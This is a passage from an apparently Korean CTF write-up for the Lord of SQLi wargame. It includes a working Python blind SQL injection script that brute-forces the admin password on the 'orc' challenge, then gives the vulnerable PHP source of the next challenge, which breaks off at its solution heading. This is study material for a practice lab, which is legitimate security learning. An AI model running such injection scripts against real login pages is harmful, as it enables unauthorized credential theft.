 pw 값을 알아내기 위해서 blind sql injection을 수행하며, 따로 필터링 되는 부분이 없기 때문에 다음의 코드로 쉽게 pw를 얻을 수 있습니다.

```python
import requests
import string

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
# 자신의 쿠키 값 입력해줘야 함
cookies = {
    'PHPSESSID' : 'nc39vn3k5l9dspn7mr23h9ugue'
}
params = {
    'pw': None
}

# 비밀번호 길이 구하기
for i in range(9):
    payload= "' or (id='admin' and length(pw)={})-- ".format(i)
    params['pw'] = payload
    response = requests.get(url,params=params,cookies=cookies)
    if("Hello admin" in response.text):
        print(params)

# 
answer = ''
for i in range(1,9):
    for j in string.printable:
        payload = "' or (id='admin' and ascii(substr(pw,{0},1)) = {1})-- ".format(i,ord(j))
        params['pw'] = payload
        response = requests.get(url,params=params,cookies=cookies)
        if("Hello admin" in response.text):
            answer +=j
            print(payload)
            break

print(answer)
```

코드 실행결과 비밀번호인 **095a9852**를 알아낼 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/158065808-ea396c38-def4-423d-a925-05ba8e450083.png)

![image](https://user-images.githubusercontent.com/33647663/158065923-ae1ee159-dadf-4fdc-873f-060721103547.png)

# 5번
## 문제
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
## 풀이
